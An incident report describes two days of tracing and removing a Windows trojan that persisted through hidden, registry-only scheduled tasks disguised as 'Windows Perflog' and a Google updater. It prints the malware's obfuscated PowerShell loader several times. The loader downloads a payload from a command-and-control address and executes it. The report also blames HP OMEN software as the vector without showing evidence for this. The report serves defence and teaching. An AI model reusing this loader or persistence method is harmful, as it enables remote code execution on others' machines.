

# 🛡️ Malware Incident Report
**Device:** LAPTOP-5FSP6C2N | **User:** Hp | **Date:** October 27–28, 2026

---

## 📋 The Malware At a Glance

| Property | Detail |
|---|---|
| **Name** | `Trojan:Win32/Commandrob.A!ml` |
| **C2 Server** | `45.10.245.9/load` (download & execute payload) |
| **Delivery vehicle** | HP OMEN Gaming Hub (`SystemOptimizer.exe`) |
| **Persistence method** | 2 hidden registry-only scheduled tasks |
| **Detection evasion** | Tasks existed only in registry — no files on disk |
| **Severity** | Severe (remote code execution, data exfiltration risk) |

---

## 🕐 Timeline of Events

### Phase 1 — Initial Symptoms
> **What the user saw:** A suspicious PowerShell command appearing repeatedly in Windows Defender alerts after every reboot.

```
C:\Windows\System32\conhost.exe --headless powershell.exe -NoProfile
-ExecutionPolicy Bypass -WindowStyle Hidden -Command
sal psv1 $env:SystemRoot\System32\WindowsPowerShell\v1.0\powershell.exe;
.(gal ?rm) 45.10245905/load | .('ROGieROGx'.Replace('ROG', ''))
```

- Windows Defender detected and blocked it every time — but couldn't remove the *source*
- Multiple full scans (online, offline, C: drive) failed to find the root cause
- The malware kept returning after every reboot

---

### Phase 2 — First Investigation: HP OMEN as Initial Vector

**🔍 What we found:**
- Malicious scheduled tasks named `SystemOptimizer` and `SystemOptimizerCustomEvent` existed in the Task Scheduler
- These tasks were created by **HP OMEN Gaming Hub's `SystemOptimizer.exe`** — the binary had been compromised/hijacked
- The tasks were firing at startup, recreating themselves repeatedly

**🔧 What we did:**
- Disabled and renamed `SystemOptimizer.exe` → `.DISABLED`
- Deleted the malicious task files from `C:\Windows\System32\Tasks\`
- Cleaned registry Run keys
- Blocked C2 IP `45.10.245.9` via Windows Firewall (outbound block) + added to `hosts` file
- Uninstalled HP OMEN Gaming Hub via Settings and Revo Uninstaller

**❌ Result:** Malware **still returned** after reboot. The task files were gone, but something else was re-triggering it.

---

### Phase 3 — Secondary Persistence: HP System Event Utility

**🔍 What we found:**
- `HpseuHostLauncher.exe` (HP System Event Utility) was registered in `HKCU\...\Run`
- The registry key name had underscores (`HPSEU_Host_Launcher`) which caused our initial removal script to miss it
- HP services still running: `HPAppHelperCap`, `HPNetworkCap`, `HPDiagsCap`, `HPSysInfoCap`, `HpTouchpointAnalyticsService`, `hpqcaslwmiex`

**🔧 What we did:**
- Ran `TraceRoot.ps1` to enable Windows Security audit logging (Event ID 4688 — process creation with command line)
- Deployed `ServiceScan.ps1` to enumerate all services directly from the registry
- Correctly removed `HPSEU_Host_Launcher` Run key (with exact name match)
- Stopped and disabled all HP-related services

**❌ Result:** Malware **still firing**. Defender logs showed it running as `NT AUTHORITY\SYSTEM`.

---

### Phase 4 — The Breakthrough: Audit Log Reveals svchost

**🔍 What the Security Event Log (Event 4688) revealed:**

```
Creator: C:\Windows\System32\svchost.exe  (PID 0x8B4 = 2228)
    └─► C:\Windows\System32\conhost.exe   (new PID every ~4 seconds)
         └─► C:\Windows\System32\powershell.exe  [MALWARE]
```

- The **same svchost process (PID 2228)** was spawning conhost → powershell every 4 seconds
- Defender killed powershell each time → svchost retried → infinite loop
- PID 2228 identified as: `svchost.exe -k netsvcs -p -s Schedule` = **Windows Task Scheduler**

**💡 Key insight:** Task Scheduler was launching the malware. But previous task scans showed nothing — the task was **hidden**.

---

### Phase 5 — The Hidden Tasks Discovered and Destroyed

**🔍 What we found (via direct registry cache scan):**

Two tasks existed **only in the Windows registry** — no corresponding files on disk. This made them invisible to:
- `Get-ScheduledTask` (PowerShell)
- Autoruns
- Task Scheduler GUI
- All file-based scanners

#### Malware Task 1: `\Windows Perflog`
```
GUID:    {DA87DD75-C5D4-45A7-AA9F-D97055BFE4AD}
Disguise: "Microsoft Windows performance monitor"
Trigger:  When an event occurs
Storage:  Registry only — NO FILE ON DISK
Command:  conhost.exe --headless powershell.exe -NoProfile -ExecutionPolicy Bypass
          -WindowStyle Hidden -Command "sal psv1 ...; .(gal ?rm) 45.10245905/load
          | .('ROGieROGx'.Replace('ROG',''))"
```

#### Malware Task 2: `\GoogleSystem\GoogleUpdater\GoogleUpdaterTaskSystem47.0.7703.3{...}`
```
GUID:    {1D08D16D-B64D-40CB-AC1A-10D42182F8DA}
Disguise: "Google Updater" (fake)
Trigger:  At system startup + at user logon
Storage:  Registry only — NO FILE ON DISK
Command:  conhost.exe --headless powershell.exe -NoP -ExecutionPolicy Bypass
          -WindowStyle Hidden -Command "sal psv1 ...; .(gal ?rm) 45.10245905/load
          | .('ROGieROGx'.Replace('ROG',''))"
```

**🔧 What we did:**
- Scanned `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks` directly
- Found and deleted both GUIDs from `TaskCache\Tasks`, `TaskCache\Logon`, `TaskCache\Plain`
- Removed both `TaskCache\Tree` entries
- Restarted Task Scheduler service

**✅ Result:**
```
Defender detections in last 1 minute AFTER: 0
[SUCCESS] No new Defender alerts! Malware has stopped!
```

---

## 🧩 Why It Was So Hard to Find



| Why scanners missed it | Explanation |
|---|---|
| No file on disk | All file-based tools scan `C:\Windows\System32\Tasks\` — these tasks weren't there |
| Legitimate-looking names | `\Windows Perflog` and `\GoogleSystem\GoogleUpdater\...` look like real system tasks |
| Defender only blocked, not traced | Defender killed the PowerShell child but couldn't trace back to the parent task |
| `Get-ScheduledTask` filtering | The cmdlet respects task visibility flags — hidden tasks are excluded |

---

## 🔒 Everything That Was Removed / Blocked

| Item | Action |
|---|---|
| `\Windows Perflog` hidden task | Deleted from registry |
| `\GoogleSystem\GoogleUpdater\...` hidden task | Deleted from registry |
| `HPSEU_Host_Launcher` Run key | Removed from `HKCU\...\Run` |
| `SystemOptimizer.exe` | Renamed to `.DISABLED` |
| `SystemOptimizer` scheduled task (file) | Deleted |
| `SystemOptimizerCustomEvent` task (file) | Deleted |
| HP OMEN Gaming Hub | Uninstalled |
| All HP Cap/Analytics services (13 total) | Stopped + Disabled |
| C2 IP `45.10.245.9` | Blocked via Windows Firewall outbound rule |
| C2 IP `45.10.245.9` | Added to `C:\Windows\System32\drivers\etc\hosts` |

---

## 🛡️ Antivirus Recommendations

> [!IMPORTANT]
> Windows Defender blocked the malware every time it ran but **could not find the source** (the hidden registry tasks). A dedicated scanner that reads the Task Scheduler registry hive directly would have caught this faster.

### Free Options — One-Time Deep Scan

| Tool | Why It's Good Here | Download |
|---|---|---|
| **Malwarebytes Free** ⭐ | Excellent at finding hidden tasks, PUPs, and persistence mechanisms. The #1 recommendation for exactly this type of infection. | malwarebytes.com |
| **Emsisoft Emergency Kit** ⭐ | Portable (no install needed), scans registry task cache, no conflict with Defender | emsisoft.com/en/home/emergencykit |
| **Kaspersky Virus Removal Tool** | Deep registry scanner, strong against Commandrob-family trojans, free, portable | kaspersky.com/downloads/free-virus-removal-tool |
| **ESET Online Scanner** | Browser-based, no install, scans everything including registry persistence | eset.com/int/home/online-scanner |
| **Sophos Scan & Clean** | Specifically targets rootkits and persistence mechanisms, portable | sophos.com/scan |

### If You Want Ongoing Protection (Paid, but worth it)

| Tool | Note |
|---|---|
| **Malwarebytes Premium** | Real-time anti-exploit + anti-ransomware on top of Defender |
| **ESET NOD32** | Lightweight, very low false positives, excellent registry scanning |
| **Bitdefender Total Security** | Top-rated, includes behavioral detection that would catch this pattern |

> [!TIP]
> You don't need to replace Defender — run **Malwarebytes Free** alongside it. They don't conflict. Defender handles viruses; Malwarebytes specializes in exactly the persistence-mechanism malware type you had.

---

## ✅ Post-Cleanup Checklist

- [x] Both hidden tasks deleted from registry
- [x] All registry Tree entries removed  
- [x] Task Scheduler restarted cleanly
- [x] HP OMEN services stopped and disabled
- [x] HPSEUHOSTLAUNCHER Run key removed
- [x] C2 server blocked (firewall + hosts)
- [ ] **Reboot and confirm no Defender alert for 5+ minutes**
- [ ] Run Malwarebytes Free full scan (post-reboot)
- [ ] Run Windows Defender Full Scan (post-reboot)
- [ ] Delete the `.ps1` script files from Desktop when done
- [ ] Consider what caused initial infection (cracked software? suspicious download?)

---

*Report generated: October 29, 2026 | Investigation duration: ~2 days*
